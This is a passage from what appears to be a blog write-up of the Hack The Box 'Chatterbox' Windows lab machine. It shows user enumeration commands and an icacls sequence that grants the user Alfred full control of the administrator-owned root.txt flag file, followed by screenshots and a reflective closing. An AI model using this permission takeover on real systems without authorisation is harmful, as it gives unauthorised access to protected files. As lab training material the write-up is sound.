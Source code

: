 ### To grant the user User1 Delete and Write DAC permissions to a file named Test1, type:
> icacls test1 /grant User1:(d,wdac)

```bash
whoami /priv
whoami /all
net user

type root.txt
# Access is denied.
icacls root.txt
# root.txt CHATTERBOX\Administrator:(F)

icacls Desktop
# CHATTERBOX\Alfred:(I)(OI)(CI)(F)

icacls root.txt /grant alfred:(F)
icacls root.txt
# root.txt CHATTERBOX\Alfred:(F)
type root.txt
```

<br />
<img src="{{ site.img_path }}/chatterbox_writeup/Chatterbox_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/chatterbox_writeup/Chatterbox_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/chatterbox_writeup/Chatterbox_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> From my writeup everything would suggest that the machine was not very complex to engage, but it does not reflect all the time I had to enumerate the system, once engaged, to find the right way to **Escalate privileges**. **Windows** machines are my favorite because I don't know most of the technologies it has, plus all the security policies that some misconfigurations can have, which represents a wide attack surface. I kill the box in the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform and go to find my next target.

<br /><br />
<img src="{{ site.img_path }}/chatterbox_writeup/Chatterbox_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
